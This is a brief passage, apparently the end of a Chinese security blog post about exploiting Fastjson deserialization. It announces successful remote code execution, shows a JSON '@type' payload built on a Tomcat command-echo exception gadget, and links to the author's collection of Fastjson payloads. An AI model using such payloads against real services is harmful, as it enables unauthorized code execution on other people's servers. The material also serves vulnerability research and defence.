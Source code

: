   
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU5MwZN6d85YzicI6P6JkloUWgbsLzMv9CYhHZHSpUORfBu5ofyRDqReefgliaXRNOomADa8zURbznFQ/640?wx_fmt=png&from=appmsg "")  
  
最后成功RCE  
```
{
    "@type": "java.lang.Exception",
    "@type": "Tomcat678910cmdechoException"
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU5MwZN6d85YzicI6P6JkloUWecJSLstsJGoEbrhXIZrOHPiaPA9bb2kCrGPBjgPOke7Zev5af1RIACw/640?wx_fmt=png&from=appmsg "")  
  
部分payload见我的github  
  
https://github.com/kezibei/fastjson_payload  
  
